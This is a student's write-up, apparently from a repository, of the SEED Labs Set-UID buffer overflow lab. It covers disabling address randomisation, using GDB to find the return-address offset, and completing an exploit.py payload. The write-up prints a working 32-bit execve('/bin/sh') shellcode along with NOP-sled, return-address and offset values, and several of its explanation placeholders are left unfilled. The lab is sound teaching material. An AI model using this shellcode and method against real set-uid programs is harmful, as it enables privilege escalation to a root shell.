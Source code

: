 # SEED Labs – Buffer Overflow Attack Lab (Set-UID Version)

I started by using these codes:
1. `$ sudo sysctl -w kernel.randomize_va_space=0`
2. `$ sudo ln -sf /bin/zsh /bin/sh`

Where the 1. is to <....>
And the 2. to <...>
So pretty much the will allow me to <...>



## 5

I am in the directory "category-software/Buffer_Overflow_Setuid" of the seed labs

### 5.1

The objective of this exercise is to determine the exact number of bytes from the start of the buffer to the saved return address on the stack, the lab itself instructs compiling the program with debug symbols, running it under a debugger, overflowing it with a test pattern, and inspecting the stack to identify that precise offset.

It was intructed to me to use `-g` flag to my commands, so in that way i have the debugging information is added to the binary

I used `make` to generate all debug binaries

Afterwards, i used all these commands line by line 
<img width="658" height="244" alt="{BCC929BB-7C9B-4FF4-B715-E1432A44B049}" src="https://github.com/user-attachments/assets/32754c40-f4cd-4984-ba64-02a4c22e3cc7" />
<img width="583" height="116" alt="{41BF9382-3DA2-4CE5-9F74-D1EAFAC86DF0}" src="https://github.com/user-attachments/assets/2a703d1b-ad38-4e68-81c8-37fc64012835" />

The team created an empty badfile to hold the payload, launched the debug build under GDB (gdb ./stack-L1-dbg), set a breakpoint at the vulnerable function (b bof) and ran the program (run) until the breakpoint, stepped (next) until the function prologue completed, inspected the frame pointer (p $ebp) and buffer address (p &buffer) to compute the saved return-address offset, and then exited GDB (quit).

We have only a few differences, for example, when i used `b bof` in the gdb-peda terminal i got "Breakpoint 1 at 0x80485a1: file stack.c, line 20." instead of "Breakpoint 1 at 0x124d: file stack.c, line 18."

### 5.2

The objective is to complete the provided `exploit.py` skeleton to generate a badfile containing a NOP sled, shellcode, and the correct return‑address/offsets so the buffer‑overflow can be exploited.

So, we needed to change the shellcode to an x86 execve("/bin/sh") payload, set start to the index where the shellcode sits in the payload, set ret to an address inside the buffer (preferably the NOP‑sled), and set offset to the byte position in the file where the saved return‑address is overwritten in `exploit.py`.

So i entered in the binary debugger with `b bof`, and did these things in order
- run
- next
- next
- p &buffer

So i could get the buffer address that is "0xbfffe65c", we will use this later.

I used a standard 32‑bit execve('/bin/sh') shellcode because it’s compact and avoids null bytes (so strcpy won’t truncate it). The shellcode pushes '/bin//sh' onto the stack, sets ebx to point to the string and ecx/edx to NULL, then issues execve via int 0x80. It is placed inside the payload after a NOP sled so the return address can land anywhere in the sled and still reach the shellcode
```c
shellcode = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
    b"\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
)
```

I set the start to 32 because I wanted a generous NOP area before the shellcode. The start indicates the byte position in the payload where the shellcode begins. Reserving about 32 bytes of 0x90 provides slack in case the jump lands slightly before the payload.

The ret should point into the NOP sled, ideally a few bytes before or at the start of the shellcode. I calculated it as the buffer base plus 32. For example, if the buffer begins at 0xbfffe65c, then ret = 0xbfffe65c + 32 = 0xbfffe67c.

Finally, I set the offset to 104 because the saved return address lies immediately after the 100‑byte buffer and the 4‑byte saved EBP. Therefore, overwriting the return address requires writing at byte position 100 + 4 = 104 in the payload.

